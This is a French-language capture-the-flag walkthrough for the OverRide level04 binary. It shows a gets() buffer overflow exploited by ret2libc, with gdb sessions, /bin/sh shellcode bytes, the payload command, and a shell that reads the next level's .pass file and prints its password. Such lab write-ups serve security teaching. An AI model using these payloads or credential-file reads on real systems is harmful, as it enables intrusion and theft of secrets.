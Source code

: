 #### Etape 1 : Décompilation 
```bash
level04@OverRide:~$ ./level04 
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
A
child is exiting...
level04@OverRide:~$ 
```

Le binaire demande un SHELLCODE.

#### Etape 2 : Recherche de faille

On analyse le code grace a gdb et ghidra et on detecte une vulmerabilité de type buffer overflow au niveau de la fonction gets.

```c
 gets((char *)local_a0);
 ```
```bash
The gets() function cannot be used securely.  Because of
     its lack of bounds checking, and the inability for the
     calling program to reliably determine the length of the
     next incoming line, the use of this function enables
     malicious users to arbitrarily change a running program's
     functionality through a buffer overflow attack.
```

Nous voyons aussi que le binaire nous envoie dans un child grace a la fonction fork.

#### Etape 3 : Idée

Utilisons la facon red2libc pour executer un shellcode.

premierement nous allons trouver l'adresse de la fonction system et de la fonction exit.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find __libc_start_main,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```
0xf7f897ec /bin/sh
0xf7e5eb70 exit 
0xf7e6aed0 system

deuxiemement nous avons trouver un overide de 156 octets pour ecraser l'adresse de retour et mettre l'adresse de system et exit.
 ```bash
(gdb) run
Starting program: /home/users/level04/level04 
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
^C
Program received signal SIGINT, Interrupt.
0xf7fdb440 in __kernel_vsyscall ()
```

Vu que la fonction gets() est appelée, par le child nous allos devoir utiliser la commande set follow-fork-mode child dans gdb pour suivre le child et trouver le buffer overflow.

```bash
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) set follow-fork-mode child
(gdb) c
Continuing.
[New process 1673]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1673]
0x41326641 in ?? ()
```
nous voyons que notre adresse de retour est 0x41326641 et grace au site https://wiremask.eu/tools/buffer-overflow-pattern-generator/? bytes=156 nous trouvons que l'adresse de retour est a 156 octets.

#### Etape 4 : Execution 

```bash
level04@OverRide:~$ echo `python -c 'print "a" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'` > /tmp/koa
level04@OverRide:~$ (cat /tmp/koa; cat ) | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

